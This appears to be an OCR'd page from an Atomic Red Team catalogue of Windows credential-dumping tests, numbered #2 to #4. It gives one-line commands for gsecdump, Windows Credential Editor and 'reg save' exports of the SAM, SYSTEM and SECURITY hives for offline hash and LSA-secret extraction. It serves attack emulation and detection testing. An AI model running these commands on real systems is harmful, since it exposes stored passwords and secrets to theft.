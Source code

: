 ## Atomic Test #2 - Gsecdump
https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
gsecdump -a
```
<br/>
<br/>

## Atomic Test #3 - Windows Credential Editor
http://www.ampliasecurity.com/research/windows-credentials-editor/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where resulting data should be placed | Path | output.txt|

#### Run it with `command_prompt`!
```
wce -o #{output_file}
```
<br/>
<br/>

## Atomic Test #4 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
<br/>
